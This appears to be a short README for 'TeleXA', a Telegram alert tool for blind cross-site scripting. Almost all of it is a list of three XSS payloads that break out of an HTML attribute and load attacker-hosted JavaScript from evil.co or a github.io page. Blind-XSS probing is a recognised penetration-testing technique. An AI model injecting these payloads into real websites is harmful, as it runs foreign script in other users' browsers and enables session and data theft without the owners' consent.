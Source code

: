 # TeleXA
Telegram Blind XSS Alert

# Payloads
`"><script src="http://evil.co/telexa.js"></script>`
`"><script src=http://user.github.io/txa.js></script>`
`"><script>$.getScript("//evil.co/txa.js")</script>`
